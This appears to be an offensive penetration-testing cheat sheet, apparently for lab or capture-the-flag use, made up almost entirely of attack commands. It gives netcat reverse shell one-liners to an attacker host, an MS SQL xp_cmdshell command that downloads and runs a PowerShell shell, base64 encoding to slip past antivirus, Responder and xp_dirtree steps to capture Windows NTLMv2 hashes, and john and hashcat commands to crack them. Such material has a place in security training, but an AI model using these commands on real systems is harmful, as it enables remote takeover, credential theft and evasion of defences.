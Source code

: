 ```
### Netcat OpenBSD version
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

### Netcat
```
nc $LHOST $LPORT -e /bin/bash
```

### Netcat Windows
```
nc.exe $LHOST $LPORT -e cmd.exe
```
https://weibell.github.io/reverse-shell-generator/ \
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## Connect to MS SQL Database
From local Kali machine:
```mssqlclient.py $USERNAME:'$PASSWORD'@$RHOST -windows-auth```

If xp_cmdshell is enabled, we can create a reverse shell session right away: ```xp_cmdshell powershell "IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.4:6666/shell.ps1\")"```

If shell.ps1 is blocked by AV, try with based64 encoding ```echo "powershell_payload" | iconv -t utf-16le | base64 -w 0```\
Run with powershell /enc\
Or just find a different powershell TCP payload.

## Capture Windows Auth Hash via Responder (while on a MS SQL console)
From local Kali machine, set up a smbserver:
```sudo impacket-smbserver $SHARENAME $(pwd)```\
From local Kali machine, set up a Responder listener:
```sudo responder -I tun0```\
From the MSSQL console:
```xp_dirtree "\\$LHOST\$SHARENAME"``` to connect and list the dir tree of the remote SMB Share

The responder listener will capture the NTMLv2 hash of the Windows target machine with this request -> can possibly crack this hash with ```john``` or ```hashcat```


## Crack Windows Auth Hash
### LM Hash:
```john --format=lm --wordlist=rockyou.txt hash.txt```\
```hashcat-m 3000 -a 3 hash.txt rockyou.txt```

### NT Hash:
```john --format=nt --wordlist=rockyou.txt hash.txt```\
```hashcat -m 1000 -a 3 hash.txt rockyou.txt```

### NTLMv1:
```john --format=netntlm --wordlist=rockyou.txt hash.txt```\
```hashcat -m 5500 -a 3 hash.txt rockyou.txt```

### NTLMv2:
```john --format=netntlmv2 --wordlist=rockyou.txt hash.txt```\
```hashcat -m 5600 -a 3 hash.txt```

## File Inclusion:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md


## SQL Injection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
```
